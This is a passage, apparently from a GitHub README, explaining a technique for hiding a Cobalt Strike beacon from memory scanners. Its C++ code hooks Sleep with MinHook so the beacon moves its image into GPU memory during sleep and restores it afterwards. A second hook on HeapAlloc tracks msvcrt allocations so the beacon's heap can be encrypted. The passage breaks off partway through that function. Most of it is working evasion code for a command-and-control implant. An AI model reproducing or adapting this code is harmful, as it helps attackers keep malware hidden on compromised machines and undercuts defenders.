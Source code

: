 ```cpp

	printf("MH_EnableHook()\n");
	if (MH_EnableHook(MH_ALL_HOOKS) != MH_OK)
		goto EXIT_ROUTINE;

  [...]
```

### Sleep
This function will be called instead of normal `Sleep` by Cobalt Strike beacon. The whole idea resides here. Before sleeping, `MoveDLLToGPUStrorage` is called and the beacon is moved to GPU memory, the previous data is **not freed**, you can still see it allocated inside the debugger, except it is all 0. Them, `OldSleep` is called, this function points to the normal Windows API. After the sleep is done, `MoveDLLFromGPUStrorage` restores the memory and the execution can continue.

```cpp

void HookedSleep(DWORD dwMilliseconds) {

	std::cout << "Hooked Sleep!\n";
	// so Context cannot be init before CS beacon is fired up, I dunno why... If init before, cuda returns error 201
	Context = initCuda(&Api, &Context);

	ULONG_PTR storageGPU;
	DWORD SizeOfHeaders;

	storageGPU = MoveDLLToGPUStrorage(dll, &SizeOfHeaders, &Api);
	std::cout << "Sleeping....\n";
	OldSleep(dwMilliseconds);
	MoveDLLFromGPUStrorage(dll, storageGPU, SizeOfHeaders, &Api);
}
```

--------------- PIC -----------------

### RtlAllocateHeap
This part is not strictly needed, but I really enjoyed a blog post by [@waldo-irc](https://twitter.com/waldoirc) talking about [heap encryption](https://www.arashparsa.com/hook-heaps-and-live-free/). So I decided to make my own implementation. Please read the @waldo-irc's blog post to have a better understanding on what is happening here.

Cobalt Strike's beacon allocates a heap segment to hold the decrypted config.
The beacon uses `malloc`, which is just a wrapper to `HeapAlloc`. So the calls to `HeapAlloc` is actually performed by `msvcrt.dll`. I choose not to catch all heap allocations because otherwise the program crashes. Only allocations performed by `msvcrt.dll` are saved. `heapMap` is a map that stores all heap allocations and their size.

> Note: `GetModuleBaseNameA` calls `HeapAlloc`, so `intercept` is used to prevent an infinite recursive call to `HookedHeapAlloc`.

```cpp
BOOL intercept = FALSE;

LPVOID HookedHeapAlloc(HANDLE hHeap, DWORD dwFlags, SIZE_T dwBytes) {
	LPVOID pointerToEncrypt = OldHeapAlloc(hHeap, dwFlags, dwBytes);

	if (intercept)
		return pointerToEncrypt;

	intercept = TRUE;
	if (GlobalThreadId == GetCurrentThreadId()) { // If the calling ThreadId matches our initial thread id then continue

		HMODULE hModule;
```